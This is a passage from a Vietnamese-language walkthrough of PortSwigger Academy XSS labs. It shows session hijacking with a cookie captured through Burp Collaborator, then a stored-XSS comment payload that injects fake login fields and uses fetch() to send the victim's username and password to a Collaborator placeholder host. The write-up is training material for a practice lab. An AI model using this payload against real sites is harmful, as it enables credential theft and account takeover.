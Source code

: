 Burp Collaborator đã log lại được comment body chứa cookie:

<img width="451" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/4a98f157-1034-46f7-8ba3-6d2adf4de7e4">

Dùng cookie này truy cập được vào phiên của admin. Lab Solved!

***

## 3. Lab: Exploiting cross-site scripting to capture passwords

* Content:
```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.
```
* Exploit:

Post comment nội dung như sau:

Payload:
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

<img width="389" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/8a825082-958a-42ad-8c08-6d90320b5b26">

Nếu victim nhập thông tin vào thì sẽ bị gửi về server attacker:

<img width="422" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/a8977118-46ec-4c88-b509-22a612587c13">

Thu được thông tin user/pass của administrator:

<img width="448" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/7e5f5653-48a4-46e6-ba0c-399ee441c964">

Lab Solved!

***

## 4. Lab: Exploiting XSS to perform CSRF
